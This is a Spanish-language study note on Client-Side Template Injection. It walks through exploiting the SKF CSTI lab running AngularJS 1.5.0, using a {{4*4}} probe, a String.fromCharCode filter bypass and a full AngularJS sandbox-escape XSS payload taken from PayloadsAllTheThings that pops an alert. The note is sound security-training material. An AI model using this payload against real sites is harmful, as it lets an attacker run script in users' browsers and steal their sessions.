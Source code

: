 -----
- Tags: #vulnerabilidades #xss 
------
# Definición

> El **Client-Side Template Injection** (**CSTI**) es una vulnerabilidad de seguridad en la que un atacante puede inyectar código malicioso en una **plantilla de cliente**, que se ejecuta en el **navegador** del usuario en lugar del servidor.

A diferencia del **Server-Side Template Injection** (**SSTI**), en el que la plantilla de servidor se ejecuta en el servidor y es responsable de generar el contenido dinámico, en el **CSTI**, la plantilla de cliente se ejecuta en el navegador del usuario y se utiliza para generar contenido dinámico en el lado del cliente.

Por ejemplo, imagina que una aplicación web utiliza plantillas de cliente para generar contenido dinámico. Un atacante podría aprovechar una vulnerabilidad de **CSTI** para inyectar código malicioso en la plantilla de cliente, lo que permitiría al atacante **ejecutar comandos en el navegador del usuario y obtener acceso no autorizado** a los datos sensibles de la aplicación web.

Una derivación común en un ataque de **Client-Side Template Injection** (**CSTI**) es aprovecharlo para realizar un ataque de **Cross-Site Scripting** (**XSS**).

Una vez que un atacante ha inyectado código malicioso en la plantilla de cliente, puede manipular los datos que se muestran al usuario, lo que le permite **ejecutar código JavaScript en el navegador del usuario**. A través de este código malicioso, **el atacante puede intentar robar la cookie de sesión del usuario**, lo que le permitiría obtener acceso no autorizado a la cuenta del usuario y realizar acciones maliciosas en su nombre.

Para prevenir los ataques de CSTI, los desarrolladores de aplicaciones web deben validar y filtrar adecuadamente la entrada del usuario y utilizar herramientas y frameworks de plantillas seguros que implementen medidas de seguridad para prevenir la inyección de código malicioso.

# Explotación de CSTI en Laboratorio

Comenzaremos montando un contenedor de la siguiente manera

- ``git clone https://github.com/blabla1337/skf-labs``

Ingresamos en el directorio */python/CSTI* y con ``pip2`` hacemos un ``pip2 install -r requirements.txt`` y un ``python2 CSTI.py`` para montar un servidor por el *puerto 5000*, luego entramos a la web al servicio corriendo por el puerto 5000.

----

En la web dispondremos de un espacio en el que **podemos colocar datos a gusto**, cuando lo hacemos veremos que **se ve reflejado el input nuestro como output en la web**, ahí es donde podremos aprovechar verificar si es vulnerable a un **CSTI** de la misma forma que lo hicimos con el [[SSTI (Server-Side Template Injection)]], colocando por ejemplo una operatoria ``{{4*4}}``.

![[CSTI 1.png]]

Hay que entender que a efectos prácticos la manera de testear si una web es vulnerable a un **Template Injection** es igual tanto para **CSTI** como para **SSTI**. 
Lo que si veremos de diferente en este caso es que si **intentamos cargar archivos internos de la máquina o tratamos de ejecutar comandos como lo hicimos en SSTI** no vamos a poder, porque no es del lado del servidor que se manipula esta plantilla, es del lado del cliente.

Si nosotros ahora hacemos un ``CTRL+U`` para **ver el código fuente de la web**, en una sección veremos ``angularjs/1.5.0``, esto es una pista para saber que versión posee este.

Procedemos a buscar en algún motor de búsquedas *angularjs 1.5.0 CSTI* y en nuestro caso encontramos un [Repositorio](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md) en una sección de *PayloadsAllTheThings*, en nuestro caso nos sirvió este Payload un poco extenso.

![[CSTI 2.png]]

![[CSTI 3.png]]

Hay que tener en cuenta que **para nosotros poder modificar** el campo de ``alert(1)``, debemos hacer un pequeño **Bypass**, ya que si ahí colocamos por ejemplo ``alert("PWNED")`` no aparecerá la alerta debido a que hay algunos casos en los que no podremos utilizar ciertos caracteres especiales o letras porque se encuentra sanitizado por defecto, para burlar esto haremos lo siguiente.

- ``String.fromCharCode()`` esta expresión permite colocar caracteres en DECIMAL y representarlos en texto plano

Si nos dirigimos a la web y hacemos un ``CTRL+SHIFT+C`` y nos dirigimos a *Console* haciendo un ``clear()`` para limpiar el contenido, podremos utilizar la expresión anterior para probarla.

![[CSTI 4.png]]

Por lo tanto si quisiéramos poner la cadena "*PWNED*" deberíamos colocar su equivalencia pero en decimal separado por ``,``.

Para hacer esto de una forma rápida podemos abrir ``python3`` y crear una variable llamada **sentence**, para luego iterar por cada carácter y aplicarle un ``ord()`` para pasarlo a **Hexadecimal**.

![[CSTI 5.png]]

Copiamos todo el resultado y hacemos un ``echo "80 87 78 69 68" | xargs | sed "s/ /,/g"`` para quitarle con ``xargs`` los saltos de linea y luego con ``sed`` reemplazar los espacios por ``,``.

Ahora solo restaría meter el código de *PayloadsAllTheThings* en un archivo, y modificarlo en donde pone "*1*" en  ``alert(1)`` con el ``(String.fromCharCode(80,87,78,69,68)``.

```js
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(String.fromCharCode(80,87,78,69,68))))+'; // ---------------------------> Acá está la modificación con el "String.fromCharMode()" aplicado.
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```

![[CSTI 6.png]]

A partir de ahora, siguiendo con todo lo visto **podríamos** efectuar el [[XSS (Cross-site Scripting)]] realizando lo que nos apetezca.

